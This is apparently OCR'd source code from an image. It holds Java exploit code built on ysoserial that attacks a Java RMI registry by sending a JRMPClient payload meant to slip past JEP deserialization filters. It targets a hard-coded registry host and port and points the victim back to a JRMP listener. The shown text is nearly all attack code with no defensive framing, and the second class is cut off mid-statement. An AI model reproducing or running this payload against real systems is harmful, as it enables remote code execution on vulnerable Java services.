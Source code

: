 ```java
                throw new IOException(e);
            }
        }
    }

    public static void main(final String[] args) throws Exception {
        final String host = "192.168.2.4";
        final int port = Integer.parseInt("1099");
        final String command = "192.168.2.4:2333";
        Registry registry = LocateRegistry.getRegistry(host, port);
        try {
            registry.list();
        } catch(ConnectIOException ex) {
            registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
        }

        // ensure payload doesn't detonate during construction or deserialization
        exploit(registry, command);
    }

    public static void exploit(final Registry registry,  final String command) throws Exception {
        new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
            Remote remote = new JRMPClient_bypass_jep_jdk231().getObject(command);
            try {
                JEP_Naming.lookup(registry, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }

            return null;
        }});
    }
}
```



```java
package ysoserial.payloads;
 
public class JRMPClient_bypass_jep_jdk241 extends PayloadRunner implements ObjectPayload<Remote> {
 
    public Remote getObject (final String command ) throws Exception {
 
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
 
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) ref);
        RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
            RMIServerSocketFactory.class.getClassLoader(),// classloader
```
